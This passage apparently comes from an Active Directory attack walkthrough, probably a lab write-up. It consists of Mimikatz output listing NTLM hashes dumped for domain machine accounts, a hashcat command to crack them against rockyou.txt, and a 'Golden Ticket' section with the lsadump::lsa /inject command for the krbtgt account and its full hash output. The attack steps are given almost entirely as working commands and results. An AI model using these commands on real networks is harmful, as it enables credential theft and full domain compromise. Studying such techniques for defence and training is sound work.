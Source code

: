 ```powershell

RID  : 000003e8 (1000)
User : DOMAIN-CONTROLL$
LM   :
NTLM : 9f39a3b67c58269c707986cdaa1bb782

RID  : 00000455 (1109)
User : DESKTOP-2$
LM   :
NTLM : 3c2d4759eb9884d7a935fe71a8e0f54c

RID  : 00000456 (1110)
User : DESKTOP-1$
LM   :
NTLM : 7d33346eeb11a4f12a6c201faaa0d89a
```

then we rack them `hashcat -m 1000 <hash> rockyou.txt`

### Mimikatz Golden Ticket

Dump hash of kerberos admin we identified earlier

`lsadump::lsa /inject /name:krbtgt`

```powershell
Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166

RID  : 000001f6 (502)
User : krbtgt

* Primary
NTLM : 5508500012cc005cf7082a9a89ebdfdf
LM   :
Hash NTLM: 5508500012cc005cf7082a9a89ebdfdf
ntlm- 0: 5508500012cc005cf7082a9a89ebdfdf
lm  - 0: 372f405db05d3cafd27f8e6a4a097b2c

* WDigest
01  49a8de3b6c7ae1ddf36aa868e68cd9ea
02  7902703149b131c57e5253fd9ea710d0
03  71288a6388fb28088a434d3705cc6f2a
04  49a8de3b6c7ae1ddf36aa868e68cd9ea
05  7902703149b131c57e5253fd9ea710d0
06  df5ad3cc1ff643663d85dabc81432a81
07  49a8de3b6c7ae1ddf36aa868e68cd9ea
08  a489809bd0f8e525f450fac01ea2054b
09  19e54fd00868c3b0b35b5e0926934c99
10  4462ea84c5537142029ea1b354cd25fa
11  6773fcbf03fd29e51720f2c5087cb81c
12  19e54fd00868c3b0b35b5e0926934c99
13  52902abbeec1f1d3b46a7bd5adab3b57
14  6773fcbf03fd29e51720f2c5087cb81c
15  8f2593c344922717d05d537487a1336d
16  49c009813995b032cc1f1a181eaadee4
17  8552f561e937ad7c13a0dca4e9b0b25a
18  cc18f1d9a1f4d28b58a063f69fa54f27
19  12ae8a0629634a31aa63d6f422a14953
20  b6392b0471c53dd2379dcc570816ba10
21  7ab113cb39aa4be369710f6926b68094
22  7ab113cb39aa4be369710f6926b68094
23  e38f8bc728b21b85602231dba189c5be
24  4700657dde6382cd7b990fb042b00f9e
25  8f46d9db219cbd64fb61ba4fdb1c9ba7
26  36b6a21f031bf361ce38d4d8ad39ee0f
```